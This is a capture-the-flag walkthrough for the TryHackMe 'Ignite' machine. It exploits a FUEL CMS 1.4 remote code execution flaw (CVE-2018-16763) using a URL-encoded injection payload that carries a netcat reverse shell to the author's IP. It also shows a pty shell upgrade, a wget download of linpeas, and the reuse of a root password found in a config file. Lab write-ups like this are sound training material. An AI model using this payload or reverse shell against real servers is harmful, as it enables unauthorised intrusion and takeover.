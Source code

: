 # IgniteCTF
A beginner Friendly CTF Ignite Hosted on TryHackme created by DarkStar7471. Which focus on Enumeration and Privilege escalation and Divided it into 2 tasks user Flag and root Flag.

## User Flag
Let's boot up the machine and start simple Nmap Scan
```
nmap -Pn -A -vv -sV -sC -oN normalScan $IP
```
and we found out port 80 HTTP web server is open on the server

By looking into the website we found it is a FUEL Content management system with 1.4 Version

![FuelCMS.png](./src/FuelCMS.png)

Let's look for available exploits for Fuel cms on google.and we found RCE CVE-2018-16763. https://www.exploit-db.com/exploits/47138

![POC.png](./src/POC.png)

let's visit https://www.revshells.com/ and Put IP and PORT For reverse shell mine IP:10.8.244.200 and PORT:1234.
and select "nc mkfifo" and copy code. then visit https://gchq.github.io/CyberChef/ and paste the code and use URL Encode and select encode all special characters.
copy output.
# Img (./src/RevShell)
![RevShell.png](./src/RevShell.png)

# Img (Url Encoded)
![URLencoded.png](./src/URLencoded.png)


replace output with urllib.quote(xxxx) from this

```
http://IP/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27
```
to
```
http://IP/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E244%2E200%201234%20%3E%2Ftmp%2Ff%27%29%2b%27
```
this

start Netcat listener on your system
```
nc -nlvp 1234
```
and hit our payload you should get the shell
run 
```
cat /home/www-data/flag.txt
```
for user flag
now run 
```
which python
```
to get to know if python is installed or not
```
python -c "import pty;pty.spawn('/bin/bash')"
```
then press ctrl + z and run on our machine
```
stty raw -echo;fg
```
for interactive shell
![interactiveShell.png](./src/interactiveShell.png)


## Root Flag

move linpeas.sh from attacker machine to Fuel Machine and run it for enumeration
start a python HTTP server on an attacker And use wget to get linpeas.sh and execute it 
nothing much found 
but in one of config file 
```
/var/www/html/fuel/application/config/database.php
```
we got root password 
run
```
su root
and password 
cat /root/root.txt
```
we got root flag
![root.png](./src/root.png)


I hope this walkthrough was helpful thank you so much for reading it 

Happy Hacking ! ❤